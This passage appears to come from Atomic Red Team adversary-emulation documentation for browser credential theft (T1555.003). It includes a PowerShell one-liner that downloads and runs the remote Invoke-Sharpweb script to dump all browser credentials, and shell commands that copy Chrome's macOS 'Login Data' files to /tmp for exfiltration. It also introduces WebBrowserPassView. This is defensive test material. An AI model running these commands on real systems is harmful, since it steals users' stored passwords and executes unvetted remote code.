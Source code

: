 

#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Sharpweb.ps1')
Invoke-Sharpweb -command "all"
```






<br/>
<br/>

## Atomic Test #14 - Simulating Access to Chrome Login Data - MacOS
This test locates the Login Data files used by Chrome to store encrypted credentials, then copies them to the temp directory for later exfil. 
Once the files are exfiltrated, malware like CookieMiner could be used to perform credential extraction. 
See https://unit42.paloaltonetworks.com/mac-malware-steals-cryptocurrency-exchanges-cookies/ .

**Supported Platforms:** macOS


**auto_generated_guid:** 124e13e5-d8a1-4378-a6ee-a53cd0c7e369






#### Attack Commands: Run with `sh`! 


```sh
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data" "/tmp/T1555.003_Login Data"
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data For Account" "/tmp/T1555.003_Login Data For Account"
```

#### Cleanup Commands:
```sh
rm "/tmp/T1555.003_Login Data" >/dev/null 2>&1
rm "/tmp/T1555.003_Login Data For Account" >/dev/null 2>&1
```





<br/>
<br/>

## Atomic Test #15 - WebBrowserPassView - Credentials from Browser
The following Atomic test utilizes WebBrowserPassView to extract passwords from browsers on a Window system. WebBrowserPassView is an open source application used to retrieve passwords stored on a local computer. Recently noticed as a tool used in the BlackCat Ransomware.
